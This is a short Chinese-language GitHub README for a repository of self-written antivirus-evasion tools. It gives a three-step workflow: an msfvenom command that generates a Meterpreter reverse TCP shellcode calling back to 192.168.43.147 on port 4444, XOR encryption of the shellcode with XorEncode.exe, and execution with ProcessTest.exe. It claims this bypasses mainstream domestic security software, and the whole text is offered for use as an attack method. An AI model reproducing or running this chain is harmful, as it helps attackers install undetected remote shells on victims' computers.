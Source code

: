 该仓库用于放置自己编写绕过杀软的程序
使用方法：

1.用MSF生成完整的shellcode：msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.43.147 lport=4444 -f raw > beacon.bin

2.然后用XorEncode.exe加密生成的shellcode文件：XorEncode.exe beacon.bin，结果会生成一个EncodeRAWData

3.最后用ProcessTest.exe执行加密后的文件EncodeRAWData：ProcessTest.exe EncodeRAWData

绕过效果：可以绕过国内主流的安全防护软件

博客地址：https://reader-l.github.io